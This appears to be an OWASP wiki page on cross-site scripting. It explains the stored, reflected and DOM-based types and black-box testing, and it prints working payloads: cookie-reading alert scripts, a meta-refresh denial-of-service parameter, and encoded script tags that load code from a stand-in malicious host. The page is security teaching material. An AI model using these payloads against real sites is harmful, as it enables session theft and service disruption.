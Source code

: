 [Up](Web_Application_Penetration_Testing_AoC "wikilink")

## Overview

[Cross-site Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
attacks occur when an attacker uses a web application to send malicious
code, generally in the form of a browser side script, to a different end
user. Flaws that allow these attacks to succeed are quite widespread and
occur anywhere a web application uses input from a user in the output it
generates without validating or encoding it.

## Related Security Activities

### Description of Cross-site scripting Vulnerabilities

See the OWASP articles on [Cross-site Scripting
(XSS)](Cross-site_Scripting_\(XSS\) "wikilink") Vulnerabilities and [DOM
Based XSS](DOM_Based_XSS "wikilink").

### How to Avoid Cross-site scripting Vulnerabilities

See the [OWASP Guide](:Category:OWASP_Guide_Project "wikilink") article
on [Phishing](Phishing "wikilink").

### How to Review Code for Cross-site scripting Vulnerabilities

See the [OWASP Code Review
Guide](:Category:OWASP_Code_Review_Project "wikilink") article on how to
[Reviewing code for Cross-site
scripting](Reviewing_Code_for_Cross-site_scripting "wikilink")
Vulnerabilities.

### XSS Filter Evasion Cheat Sheet

The [XSS Filter Evasion Cheat
Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink") is focused on
providing application security testing professionals with a guide to
assist in Cross Site Scripting testing.

__NOTOC__

## Description of the Issue

[XSS](XSS "wikilink") attacks are essentially code injection attacks
into the various interpreters in the browser. These attacks can be
carried out using HTML, JavaScript, VBScript, ActiveX, Flash, and other
client-side languages. These attacks also have the ability to gather
data from account hijacking, changing of user settings, cookie
theft/poisoning, or false advertising is possible. In some cases, Cross
Site Scripting vulnerabilities can perform other functions such as
scanning for other vulnerabilities and performing a Denial of Service on
your web server.

Cross Site Scripting is an attack on the privacy of clients of a
particular web site which can lead to a total breach of security when
customer details are stolen or manipulated. Unlike most attacks, which
involve two parties (the attacker and the web site, or the attacker and
the victim client) the XSS attack involves three parties -- the
attacker, a client and the web site. The goal of the XSS attack is to
steal the client cookies or any other sensitive information which can
authenticate the client to the web site. With the token of the
legitimate user at hand, the attacker can proceed to act as the user in
his/her interaction with the site, impersonating the user - Identity
theft\!

Online message boards, web logs, guestbooks, and user forums where
messages can be permanently stored also facilitate Cross Site Scripting
attacks. In these cases, an attacker can post a message to the board
with a link to a seemingly harmless site, which subtly encodes a script
that attacks the user once they click the link. Attackers can use a wide
range of encoding techniques to hide or obfuscate the malicious script
and, in some cases, can avoid explicit use of the

<Script>

tag. Typically, XSS attacks involve malicious JavaScript, but they can
also involve any type of executable active content. Although the types
of attacks vary in sophistication, there is a generally reliable method
to detect XSS vulnerabilities. Cross Site Scripting is used in many
Phishing attacks.

**Now we explain the three types of Cross Site Scripting: Stored,
Reflected, and DOM-Based.**

The **Stored Cross Site Scripting** vulnerability is the most powerful
kind of XSS attack. A Stored XSS vulnerability exists when data provided
to a web application by a user is first stored persistently on the
server (in a database, filesystem, or other location), and later
displayed to users in a web page without being encoded using HTML entity
encoding. A real life example of this would be the Samy MySpace Worm,
which exploited an XSS vulnerability found on MySpace in October of
2005.

These vulnerabilities are the most significant of the XSS types because
an attacker can inject the script just once. This could potentially hit
a large number of other users with little need for social engineering,
or the web application could even be infected by a cross-site scripting
virus.

**Example**

If we have a site that permits us to leave a message to the other user
(a lesson of WebGoat v3.7), and we inject a script insted of a message
in the following way:

<center>

![Image:XSSStored1.PNG](XSSStored1.PNG "Image:XSSStored1.PNG")

</center>

Now the server will store this information and when a user clicks on our
fake message, his browser will execute our script as follows:

<center>

![Image:XSSStored2.PNG](XSSStored2.PNG "Image:XSSStored2.PNG")

</center>

The **Reflected Cross-Site Scripting** vulnerability is by far the most
common and well-known type. These holes show up when data provided by a
web client is used immediately by server-side scripts to generate a page
of results for that user. If unvalidated user-supplied data is included
in the resulting page without HTML encoding, this will allow client-side
code to be injected into the dynamic page. A classic example of this is
in site search engines: if one searches for a string which includes some
HTML special characters, often the search string will be redisplayed on
the result page to indicate what was searched for, or will at least
include the search terms in the text box for easier editing. If all
occurrences of the search terms are not HTML entity encoded, an XSS hole
will result.

At first glance, this does not appear to be a serious problem since
users can only inject code into their own pages. However, with a small
amount of social engineering, an attacker could convince a user to
follow a malicious URL which injects code into the results page, giving
the attacker full access to that page's content. Due to the general
requirement of the use of some social engineering in this case (and
normally in DOM-Based XSS vulnerabilities as well), many programmers
have disregarded these holes as not terribly important. This
misconception is sometimes applied to XSS holes in general (even though
this is only one type of XSS) and there is often disagreement in the
security community as to the importance of cross-site scripting
vulnerabilities. The simplest way to show the importance of a XSS
vulnerability would be to perform a Denial of Service attack. In some
cases a Denial of Service attack can be performed on the server by doing
the following:

`article.php?title=<meta%20http-equiv="refresh"%20content="0;">`

This makes a refresh request roughly about every .3 seconds to
particular page. It then acts like an infinite loop of refresh requests,
potentially bringing down the web and database server by flooding it
with requests. The more browser sessions that are open, the more intense
the attack becomes.

The **DOM-based Cross-Site Scripting** problem exists within a page's
client-side script itself. If the JavaScript accesses a URL request
parameter (an example would be an RSS feed) and uses this information to
write some HTML to its own page, and this information is not encoded
using HTML entities, an XSS vulnerability will likely be present, since
this written data will be re-interpreted by browsers as HTML which could
include additional client-side script. Exploiting such a hole would be
very similar to the exploitation of Reflected XSS vulnerabilities,
except in one very important situation.

For example, if an attacker hosts a malicious website which contains a
link to a vulnerable page on a client's local system, a script could be
injected and would run with privileges of that user's browser on their
system. This bypasses the entire client-side sandbox, not just the
cross-domain restrictions that are normally bypassed with XSS exploits.

The methods of injection can vary a great deal. A perfect example of how
this type of an attack could impact an organization, instead of an
individual, was demonstrated by Jeremiah Grossman @ BlackHat USA 2006.
The demonstration gave an example of how posting a stored XSS script to
a popular blog, newspaper, or page comments section of a website can
cause all the visitors of that page to have their internal networks
scanned and logged for a particular type of vulnerability.

## Black Box testing and example

One way to test for XSS vulnerabilities is to verify whether an
application or web server will respond to requests containing simple
scripts with an HTTP response that could be executed by a browser. For
example, Sambar Server (version 5.3) is a popular freeware web server
with known XSS vulnerabilities. Sending the server a request such as the
following generates a response from the server that will be executed by
a web browser:

`http://server/cgi-bin/testcgi.exe?<SCRIPT>alert(“Cookie”+document.cookie)</SCRIPT>`

The script is executed by the browser because the application generates
an error message containing the original script, and the browser
interprets the response as an executable script originating from the
server. All web servers and web applications are potentially vulnerable
to this type of misuse, and preventing such attacks is extremely
difficult.

**Example 1:**

Since JavaScript is case sensitive, some people attempt to filter XSS by
converting all characters to upper case, rendering Cross Site Scripting
utilizing inline JavaScript useless. If this is the case, you may want
to use VBScript since it is not a case sensitive language.

JavaScript:

<script>

alert(document.cookie);

</script>

VBScript:

<script type="text/vbscript">

alert(DOCUMENT.COOKIE)

</script>

Also, you can use the SRC attribute to load the attacker's JavaScript
from an external site (see Example 2 below), causing the JavaScript
payload to be loaded directly and bypassing capitalization effects
altogether.

**Example 2:**

If they are filtering for the \< or the open of

<script or closing of script>

you should try various methods of encoding:

`<script src=http://www.example.com/malicious-code.js></script>`

`%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e`

`\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e`

You can find more examples of XSS Injection here:
<http://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors>

## References

**Whitepapers**

  - Jeremiah Grossman: "Hacking Intranet Websites from the Outside
    "JavaScript malware just got a lot more dangerous"" -
    <http://www.blackhat.com/presentations/bh-jp-06/BH-JP-06-Grossman.pdf>

<!-- end list -->

  - Amit Klien: "DOM Based Cross Site Scripting" -
    <http://www.securiteam.com/securityreviews/5MP080KGKW.html>

<!-- end list -->

  - Paul Lindner: "Preventing Cross-site Scripting Attacks" -
    <http://www.perl.com/pub/a/2002/02/20/css.html>

<!-- end list -->

  - CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in
    Client Web Requests" -
    <http://www.cert.org/advisories/CA-2000-02.html>

<!-- end list -->

  - Aung Khant: "What XSS Can do - Benefits of XSS From Attacker's view"
    - <http://yehg.net/lab/pr0js/papers/What%20XSS%20Can%20Do.pdf>

**Tools**

  - **PHP Charset Encoder(PCE)** - <http://yehg.net/encoding>

PCE helps you encode arbitrary texts to and from 65 kinds of charsets
that you can use in your customized payloads.

  - **HackVector(HVR)** -
    <http://www.businessinfo.co.uk/labs/hackvertor/hackvertor.php>

[Category:Security Focus Area](Category:Security_Focus_Area "wikilink")
[I think this whole section needs to be
deleted](Category:FIXME "wikilink")
